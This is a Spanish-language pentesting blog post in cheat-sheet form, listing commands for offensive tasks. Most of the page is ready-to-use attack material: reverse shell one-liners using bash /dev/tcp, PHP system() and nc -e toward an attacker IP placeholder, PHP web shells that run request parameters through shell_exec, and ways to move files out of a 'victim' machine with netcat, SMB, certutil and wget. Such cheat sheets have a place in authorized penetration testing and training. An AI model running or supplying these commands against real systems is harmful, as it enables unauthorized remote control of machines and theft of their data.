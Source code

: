 ```yaml
---
layout: single
title: Comandos.
excerpt: "En esta sección conocerás algunos comandos que te serań utiles para realizar distintas tareas."
date: 2023-02-20
classes: wide
header:
  teaser: /assets/images/command.jpeg
  teaser_home_page: true
categories:
  - Pentesting
  - Ethical Hacking
tags:
- Linux
- Windows
---
```

## Reverse Shell.
Estas son algunas formas con las cuales puedes enviarte una reverse shell a tu equipo.
```
bash -c bash -i >& /dev/tcp/<ip-address>/443 0>&1

bash+-c+bash+-i+>%26+/dev/tcp/<ip-address>/443+0>%261
```
```
<?php system("bash -c 'bash -i >& /dev/tcp/<ip-address>/443 0>&1'") ?> 
```
```
nc -e /bin/bash <ip-address> 443
```
<br>
Web shell.
```
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
```
<?php
  echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```
```
smbserver.py smbFolder $(pwd) -smb2support
sudo nc -nlvp 443
\\<ip-address>\smbFolder\nc.exe -e cmd <ip-address> 443
```
Acceder al template 404.php.
```
curl -s -X GET "http://<ip-address>/?p=404.php"
```
<br><br>
## Reducir el peso de un archivo.
Con el comando `` du -hc `` puedes ver el peso que tiene un archivo. y con `` upx `` reduces el peso para que cuando lo quieras transferir de un equipo a otro sea más rapido.
```
du -hc <archivo>

upx <archivo>
```
<br><br>
## Tranferir archivos o binarios. 
Tranferir un archivo o binario con netcat.
```
nc -nlvp 443 > <file>         # Desde tu equipo.
# <file> Es el nombre con el cual se va a guardar en tu equipo.

nc <ip-addres> 443 < <file>   # Desde la máquina víctima.
# <file> Es el nombre del archivo que vas a transferir.
```

Transferir un archivo a una máquina Windows haciendo uso de smbserver.
```
impacket-smbserver smbFolder $(pwd) -smb2support  # Desde tu equipo.

copy <archivo> \\<ip-address>\smbFolder\<archivo> # Desde la máquina víctima.
```

Transferir un archivo usando python para montar un servicio http por el puerto 80 y con el binario certutil.exe realizar la transferencia.
```
python3 -m http.server 80          # Desde tu equipo.

certutil.exe -f -urlcache -split http://<ip-address>/<archivo_a_tranferir> <nombre_como_se_guardara>                              # Desde la máquina víctima
```
Transferir un archivo con python y wget.
```
python3 -m http.server 80           # Desde tu equipo.

wget http://<ip-address>/<archivo>  # Desde la máquina víctima.
```
<b>md5sum</b><br>
Comando que te ayuda a verificar que la integridad de un archivo no se haya modificado.
```
md5sum <file_name>
```






